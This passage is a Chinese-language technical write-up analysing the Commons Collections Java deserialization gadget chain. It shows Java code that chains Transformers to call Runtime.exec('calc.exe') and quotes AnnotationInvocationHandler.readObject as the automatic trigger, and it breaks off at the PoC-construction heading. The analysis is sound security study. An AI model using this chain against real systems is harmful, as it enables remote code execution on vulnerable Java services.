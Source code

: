 1. 首先构造一个transformers数组,其中包含一个ConstantTransformer对象用来获取Runtime.getRuntime()对象和一个InvokerTransformer对象,其中指定方法名和参数.  
2. 再将该数组传入ChainedTransformer构造函数生成一个ChainedTransformer对象,利用其特性将获取到的Runtime.getRuntime()对象作为传入对象和一个InvokerTransformer中.  
3. 最终反射调用了Runtime.getRuntime()的exec方法执行命令
4. 构造一个Map类用transformerChain修饰,调用Map.put()方法触发transformerChain,然后触发上述利用链RCE.
```java
public class test {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class},
                        new Object[]
                                {"calc.exe"}),
        };
        Transformer transformerChain = new
                ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
        outerMap.put("hands", "cold");
    }
}
```
但上述触发需要手动调用put方法进行触发,无法在实际场景利用.
## AnnotationInvocationHandler
在实际场景中则需要找到一个再反序列化过程中能自动触发put方法的类.
在AnnotationInvocationHandler的readObject()中.
> 测试8U41和8U20时,readObject()方法和其它人的不太一样,但最后的触发原理其实一致.
```java
    private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var3 = var2.memberTypes();
        Iterator var4 = this.memberValues.entrySet().iterator();

        while(var4.hasNext()) {
            Entry var5 = (Entry)var4.next();
            String var6 = (String)var5.getKey();
            Class var7 = (Class)var3.get(var6);
            if (var7 != null) {
                Object var8 = var5.getValue();
                if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
                    var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
                }
            }
        }

    }
```
其中通过迭代`AnnotationInvocationHandler`的memberValues,在最后调用了元素的`setValue`方法,也就是为元素添加值,也就会触发`TransformedMap`对其的修饰方法,也就是进入了上面的`Transformer`利用过程中.
## POC构造